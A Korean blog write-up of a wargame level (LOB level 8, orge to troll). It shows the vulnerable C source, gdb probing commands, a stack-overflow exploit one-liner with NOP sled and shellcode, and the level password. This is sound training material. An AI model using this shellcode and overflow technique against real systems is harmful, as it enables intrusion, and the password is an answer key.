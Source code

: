 ```yaml
---
date: '2022-10-18'
before : '2022-10-17'
after : '2022-10-19'
title: '시스템 해킹(23) : FTZ LOB LEVEL 8'
categories: ['C-SEC', 'KOR', 'pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

이 문제에서는 더 이상 매개변수를 두개 넘겨줄 수 없다. 해결법은 그래도 그리 어렵진 않다.


### Level 8 : Orge -> Troll

소스코드를 확인해보자.

```
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        // here is changed, 파라미터의 개수가 하나밖에 없다.
        if(argc != 2){
                printf("argc must be two!\n");
                exit(0);
        }

        // egghunter, 환경변수 사용 불가
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        // 첫 번째 argv의 마지막 값은 무조건 /xbf, 따라서 특정 주소를 나타내야 한다.
        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);

        // one more!
        memset(argv[1], 0, strlen(argv[1]));
}
```
이런 경우는 그냥 첫 번째 매개변수에 두 번째 매개변수를 넘겨주면 되는데, 이게 무슨 말이냐면 :


>> 우리가 넘길 매개변수 = return주소를 포함하는 통상적인 버퍼 오버플로우 스트링 + " " (빈 스트링) + NOP SLED 포함 쉘코드


이런 식으로 매개변수를 넘겨서, return 주소가 NOP SLED 어딘가쯤에 오게 만들면 된다는 말이다. 말로 들으면 어려우니 코드를 보자 : 

```
b * main
r `python -c'print "A"*44+"\xbf\xbf\xbf\xbf"'` `python -c'print "\x90"*100'`
x/200x $esp
```
확인해보면 A(\x41)부터 시작해서 쭉쭉 나가다가 어느 순간 \x90이 시작되는 것이 보인다. 그 주소는 다음과 같다 : 


대충이나마의 주소 : 0xbffffb3c


그럼 그냥 return 코드로 저 주소를 넘겨주면 된다. 어렵지 않다.


따라서 exploit :

```
./`python -c 'print "\x90"*20+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+" "+"D"*44+"\x90\xfb\xff\xbf"'`
```

비밀번호 : aspirin

 ---
## Source

- 해커스쿨 FTZ
- Me!
